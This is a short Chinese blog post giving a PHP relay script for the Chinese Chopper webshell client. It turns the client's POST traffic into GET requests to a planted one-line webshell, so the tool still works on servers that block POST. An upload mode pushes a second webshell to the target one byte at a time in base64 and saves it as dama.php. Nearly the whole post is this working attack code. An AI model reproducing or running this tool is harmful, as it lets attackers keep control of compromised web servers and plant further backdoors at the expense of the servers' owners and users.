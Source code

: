 ```yaml
---
title: "PHP 菜刀中转脚本"
date: 2018-01-31T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


有的服务器 管理员脑抽把 POST 方法禁止

而菜刀是利用 POST 来发送执行代码的

只要把 POST 转换成 GET 就可以正常链接了

<!--more-->

```
<?php
ini_set('max_execution_time', '100'); // 超时时间

$url = 'http://127.0.0.1/cmd.php'; // 一句话地址
$pass = 'cmd'; // 密码
$data = $_POST['cmd']; // 中转密码

echo file_get_contents($url.'?'.$pass.'='.$data);

if(isset($_GET['upload'])){
	$f = fopen('darkshell.php','r'); // 上传文件
	while (!feof($f)){
		$content = base64_encode(fgetc($f));
		$exec = "file_put_contents('dama.php',base64_decode('$content'),FILE_APPEND);";
		file_get_contents($url.'?'.$pass.'='.$exec);
	}
	echo 'File uploaded successfully';
}
?>